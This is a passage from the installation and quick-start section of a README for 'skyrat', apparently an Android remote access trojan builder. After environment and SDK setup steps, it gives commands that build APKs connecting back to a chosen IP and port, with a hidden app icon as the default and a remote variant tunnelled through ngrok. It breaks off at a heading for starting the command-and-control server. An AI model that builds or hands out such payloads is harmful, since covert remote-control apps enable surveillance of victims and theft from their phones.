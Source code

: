 ### 2. Create Virtual Environment
```bash
# Create virtual environment
python3 -m venv venv

# Activate virtual environment
source venv/bin/activate  # Linux/macOS
# or
venv\Scripts\activate     # Windows
```

### 3. Install Python Dependencies
```bash
pip3 install -r requirements.txt
```

### 4. Setup Android SDK
```bash
# Linux/macOS
chmod +x tools/android-sdk-setup.sh
./tools/android-sdk-setup.sh

# Or manually install Android SDK and set ANDROID_HOME
```

### 5. Verify Installation
```bash
python3 skyrat.py --help
```

## 🎯 Quick Start

### Building an APK

#### Basic APK Build
```bash
# Build APK for local network
python3 skyrat.py --build -i 192.168.1.100 -p 8000 -o test.apk

# Build with visible app icon
python3 skyrat.py --build -i 192.168.1.100 -p 8000 --visible-icon -o visible.apk
```

#### External Access with Ngrok
```bash
# Build APK with ngrok tunnel
python3 skyrat.py --build --ngrok -p 8000 -o remote.apk
```

### Starting the C&C Server

